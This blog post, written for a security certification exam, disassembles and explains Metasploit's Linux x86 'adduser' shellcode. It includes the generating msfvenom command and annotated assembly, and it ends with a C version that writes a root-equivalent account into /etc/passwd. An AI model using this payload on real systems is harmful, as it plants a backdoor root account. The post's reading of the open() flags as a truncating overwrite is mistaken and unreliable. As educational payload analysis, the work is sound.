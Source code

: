 ```yaml
---
title: "SLAE x86 Exam - Assignment #5 Part 1"
date: 2021-12-25
toc: true
search: false
classes: wide
categories:
  - blog
tags:
  - slae
  - assembly
  - nasm
  - c
  - x86
  - exam
  - shellcode
  - metasploit
---
```


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

<https://www.pentesteracademy.com/course?id=3>

Student ID: PA-30398

## Foreword

The 5th assignment requires you to analyze at least 3 shellcode samples created using Msfpayload (nowadays `msfvenom`) for 32-bit Linux systems.

Programs like `gdb`/`ndisasm`/`libemu` can be used for dissecting the shellcode and performing the analysis.

I chose the following 4 shellcode samples:

Name | Description
-|-
linux/x86/adduser | Create a new user with UID 0
linux/x86/shell/reverse_nonx_tcp | Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_find_tag | Spawn a shell on an established connection (proxy/nat safe)
linux/x86/shell_reverse_tcp_ipv6 | Connect back to attacker and spawn a command shell over IPv6

In this post I'll analyse `linux/x86/adduser`.

## Analysis

### NDISASM

To generate the payload:

```bash
msfvenom -p linux/x86/adduser -o shellcode.bin
```

To analyse it with `ndisasm`:

```bash
ndisasm shellcode2.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; ECX = 0
00000000  31C9              xor ecx,ecx

                            ; EBX = 0
00000002  89CB              mov ebx,ecx

                            ; EAX = 70
00000004  6A46              push byte +0x46
00000006  58                pop eax

                            ; call setreuid
00000007  CD80              int 0x80
```

{% sidenote The shellcode runs the command `setreuid(0, 0)` in order to execute subsequent instructions as **root** %}

```nasm
                            ; EAX = 5
00000009  6A05              push byte +0x5
0000000B  58                pop eax

                            ; pushes 0x2f6574632f2f70617373776400000000 to the stack
                            ; which is equal to "/etc//passwd"
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f

                            ; store reference to string into EBX
0000001E  89E3              mov ebx,esp

                            ; ECX = 0x401 (1025)
00000020  41                inc ecx
00000021  B504              mov ch,0x4

                            ; syscall open
00000023  CD80              int 0x80
```

{% sidenote The shellcode calls `open()` on `/etc//passwd` with flags `O_WRONLY` and `O_NOCTTY` %}

The file must already exist, otherwise the function won't be able to open it.

```nasm
                            ; exchanges the values of EAX and EBX
00000025  93                xchg eax,ebx

                            ; jumps to 0x00000053
00000026  E828000000        call 0x53
```

{% sidenote After exchanging EAX with EBX, the shellcode jumps to `0x00000053` %}

```nasm
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
```

{% sidenote The bytes from `0x0000002B` to `0x00000052` represent a string. In fact, the last byte is `0x0a` is a newline (`\n`) on Linux systems) %}

```nasm
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

I won't cover the bytes from `0x00000052` to `0x0000005f` as they aren't correct. In this case, `ndisasm` thinks that the byte at `0x00000052` is the opcode for the `OR` instructions, however it's simply a newline.

I had to adjust it manually:

```bash
echo -n '598b51fc6a0458cd806a0158cd80' | xxd -r -p > shellcode2.bin

ndisasm shellcode2.bin -b 32 -p intel
```

Follows the output of `ndisasm`:

```nasm
                            ; store the reference to the string into ECX
00000000  59                pop ecx

                            ; copy the byte stored at ECX-4 into EDX 
00000001  8B51FC            mov edx,[ecx-0x4]

                            ; call the write syscall
00000004  6A04              push byte +0x4
00000006  58                pop eax
00000007  CD80              int 0x80
```

{% sidenote According to the docs, EDX stores the length of the string, so it should be `0x28` (40 chars). The value is the fourth-to-last byte of the instruction stored at the address `0x00000026` (`E828000000`) %}

Aftert the shellcode retrieves the size of the string to bo written, it uses the `write()` syscall to write into the previously opened file, which is overwritten.

```nasm
                            ; call the exit syscall
00000009  6A01              push byte +0x1
0000000B  58                pop eax
0000000C  CD80              int 0x80
```

{% sidenote The shellcode gracefully terminates its execution %}

These last two pieces of shellcode simply write the new string inside the previously-opened file: `/etc//passwd`.

The line is the following:

```bash
echo "6D65746173706C6F69743A417A2F6449736A3470344952633A303A303A3A2F3A2F62696E2F73680A" | xxd -r -p

# metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

The format is the following:

```bash
# USERNAME:HASHED_PASSWORD:UID:GUID:GECOS_INFO:HOME_DIRECTORY:SHELL
```

The password in encrypted with `DES`, which is a weak encryption scheme. The first two characters (`Az`) are the salt, while the other eleven characters are the hash value.

According to the documentation of the module, the password should be `metasploit`.

Once the line is written, a new user with `UID 0` and `GUID 0` (hence identical to `root`), will be added to the machine.

### Decompiling

Since the shellcode it's small, I tried to convert the assembly instructions into a C program, in order to make it easier to understand what's going on:

```cpp
#include <unistd.h>
#include <fcntl.h>

int main(int argc, char *argv[])
{
  setreuid(0, 0);
  int fd = open("/etc//passwd", O_WRONLY | O_NOCTTY);
  write(fd, "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\n", 40);
}
```

A brief summary:

1. it uses `setreuid()` to set "real and effective user IDs of the calling process" (the differents arises when impersonating other users)
2. it uses `open()` to open the file `/etc//passwd` (which must already exist) in write mode, so it overwrites all of the contents
3. it uses `write()` to write **40 bytes** (the string shown above) inside the file
